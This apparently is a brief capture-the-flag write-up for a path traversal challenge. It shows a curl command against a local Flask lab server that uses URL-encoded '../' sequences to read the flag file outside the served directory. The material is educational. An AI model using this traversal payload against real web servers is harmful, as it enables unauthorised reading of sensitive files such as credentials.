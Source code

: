 # Path Traversal 1

```shell
cat /challenge/server
```

The server is a Flask app that, on receiving requests at `/package/<path>`, serves the file at `/challenge/files/path`
We know that the flag is at `/flag`

Start the server and use curl:

```shell
curl -v http://challenge.localhost:80/package/..%2F..%2Fflag
```

"..%2F" is URL-encoding of "../"

